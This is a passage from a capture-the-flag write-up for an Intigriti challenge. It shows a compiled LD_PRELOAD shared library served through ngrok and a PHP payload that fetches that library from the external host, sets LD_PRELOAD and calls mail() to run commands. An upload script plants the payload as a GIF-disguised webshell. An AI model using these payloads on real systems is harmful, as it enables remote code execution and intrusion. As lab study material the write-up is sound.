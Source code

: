 ```c
}
```

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:49:56(HKT)]
└> gcc -c -fPIC exploit.c -o exploit && gcc --share exploit -o exploit.so
```

- Write the shared library to disk, set environment variable `LD_PRELOAD`, and call function `mail`

Setup a simple HTTP server:

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:53:53(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Setup port forwarding via [ngrok](https://ngrok.com/):

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:53:52(HKT)]
└> ngrok tcp 8000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:12515 -> localhost:8000                             
[...]
```

PHP payload:

```php
$cmd = "id>/tmp/siunam_rce";

$tempFile = tempnam(sys_get_temp_dir(), "rce");
$content = file_get_contents("<attacker_shared_library_url>");
file_put_contents($tempFile, $content);

putenv("CMD=$cmd");
putenv("LD_PRELOAD=$tempFile");
mail("", "", "", "", "");
```

Upload the PHP payload and trigger it via previous section's script:

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|16:01:30(HKT)]
└> python3 arbitrary_file_upload.py '$cmd = "id>/tmp/siunam_rce"; $tempFile = tempnam(sys_get_temp_dir(), "rce"); $content = file_get_contents("http://0.tcp.ap.ngrok.io:12515/exploit.so"); file_put_contents($tempFile, $content); putenv("CMD=$cmd"); putenv("LD_PRELOAD=$tempFile"); mail("", "", "", "", "");'
[*] Webshell payload:
<?php
$cmd = "id>/tmp/siunam_rce"; $tempFile = tempnam(sys_get_temp_dir(), "rce"); $content = file_get_contents("http://0.tcp.ap.ngrok.io:12515/exploit.so"); file_put_contents($tempFile, $content); putenv("CMD=$cmd"); putenv("LD_PRELOAD=$tempFile"); mail("", "", "", "", "");
?>
[+] The file has been uploaded to uploads/webshell.png.php
[+] Response text:
GIF89a
```
